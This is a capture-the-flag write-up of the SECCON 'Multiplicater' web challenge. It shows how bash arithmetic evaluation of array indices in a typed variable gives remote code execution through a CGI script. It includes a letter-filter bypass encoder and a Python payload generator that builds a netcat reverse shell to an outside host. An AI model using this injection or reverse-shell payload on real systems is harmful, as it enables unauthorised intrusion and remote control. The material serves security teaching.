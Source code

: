 # Multiplicater (web, 457p, 10 solved)

In the challenge we get access to a [cgi script](index.cgi).

The script is not very complex:

- It sets the variables var1 and var2 to be integer (yes, bash can have types variables!)
- It reads POST parameters we send via HTTP form, splits them with `awk` to extract the values
- Then it decodes urlencode
- Then it filters all letters from the input
- Finally it performs `bash arithmetic evaluation` of `var1 * var2`

```bash
typeset -i var1
typeset -i var2

POST_STRING=$(cat)

var1="$(echo $POST_STRING|awk -F'&' '{print $1}'|awk -F'=' '{print $2}'| nkf -w --url-input|tr -d a-zA-Z)"
var2="$(echo $POST_STRING|awk -F'&' '{print $2}'|awk -F'=' '{print $2}'| nkf -w --url-input|tr -d a-zA-Z)"

echo  "$var1" '*' "$var2 = $((var1 * var2))"
```

We don't know where the flag is, so we need an actual RCE here.

First issue here is that `tr -d a-zA-Z` removes all letters, so any payload we send has to be free of those.
This is not terrible if we can evaluate things like `'$\101'` in bash, because they will be interpolated to letters.

Another issue is that `var1` and `var2` upon assignment will be evaluated and casted to int.
Anything that is not a valid int will result in `0`.
This means that we can't really "leak" much with the last echo, because it will `always` result in integer, and it's inputs will always be integers.

This leaves us with not much space at all, we somehow need to gain RCE with `var1="$(echo SOMETHING)"`

This assignment, since the variable is typed, performs `arithmetic evaluation` before the assignment.
If we read the documentation, it `claims` thar such evaluation does perform shell expansion and variable substitution, however if we try to send a simple sanity check like `$$` as variable value, it doesn't actually work.

It took us a while, and actually someone reading through bash source code of the evaluation, to find out that there is a very special case for `evaluating array index` which is far more powerful!
I fact it provides full RCE there.

For example we can't do:

```bash
typeset -i var1
x='$(touch hacked)'
var1="$(echo $x)"
```

But we can do:

```bash
typeset -i var1
x='__[$(touch hacked)]'
var1="$(echo $x)"
```
And it actually works :)

With this it's pretty clear what to do, we just need to place a reverse-shell in such payload.
Remeber we can't use `a-zA-Z` but as mentioned earlier, we can easily bypass this:

```python
def encode(string):
    x = ["$'\\" + str(oct(ord(c)))[1:] + "'" for c in string]
    return "".join(x)
```

With this we can simply run:

```python
def main():
    echo = encode("echo")
    bash = encode("bash")
    payload = encode("nc tailcall.net 6666 | bash | nc tailcall.net 7777")
    pattern = "__[$(%s %s|%s)]" % (echo, payload, bash)
    print(pattern)


main()
```

Keep in mind the browser will encode the space in `%s %s|%s` to `+` when sending POST, so you should actually send it by hand to avoid this!

Finally connect to the target server to get the flag: `SECCON{Did_you_calculate_it?}`

